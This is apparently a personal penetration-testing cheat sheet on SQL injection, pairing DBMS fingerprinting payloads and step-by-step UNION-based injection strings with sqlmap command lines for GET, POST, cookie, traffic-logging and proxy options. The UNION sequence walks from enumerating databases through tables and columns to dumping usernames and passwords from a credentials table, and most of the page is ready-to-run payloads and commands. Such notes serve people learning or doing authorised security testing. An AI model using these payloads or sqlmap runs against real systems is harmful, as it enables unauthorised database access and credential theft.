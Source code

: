 ```yaml
---
description: >-
  Occurs when some malicious payload could be interpreted on a SQL query and
  subvert it's logic to manipulate an victimize database
---
```


# SQLI
|Payload 	       | When to Use 	      Expected Output 	Wrong Output
|SELECT @@version  | When we have full query output 	MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1' 	In MSSQL it returns MSSQL version. Error with other DBMS.
|SELECT POW(1,1)   | When we only have numeric output 	1 	Error with other DBMS
|SELECT SLEEP(5)   | Blind/No Output 	Delays page response for 5 seconds and returns 0. 	Will not delay response with other DBMS

```bash
List of databases
List of tables within each database
List of columns within each table
```

Enumerate databases

To start our enumeration, we should find what databases are available on the
DBMS. The table SCHEMATA in the INFORMATION_SCHEMA database contains
information about all databases on the server. It is used to obtain database
names so we can then query them. The SCHEMA_NAME column contains all the
database names currently present.

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

select * from INFORMATION_SCHEMA.TABLES where table_schema='us_counties_pop_est_2019';
















# SQLmap
# Sqlmap based on request retrive by browser

sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86*64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/\_' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'

# Default post

sqlmap 'http://www.example.com/' --data 'uid=1&name=test'

```
 Tip: similarly to the case with the '--data' option, within the saved request file, we can specify the parameter we want to inject in with an asterisk (*), such as '/?id=*'.
```

# set cookie

sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'

this flag could be used to simulate a phone User-Agent
--mobile

#Display Errors

The first step is usually to switch the --parse-errors, to parse the DBMS errors (if any) and displays them as part of the program run:

# Store traffic

Use the flag -t
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt

# Redirect traffic to a proxy

use the flag --proxy


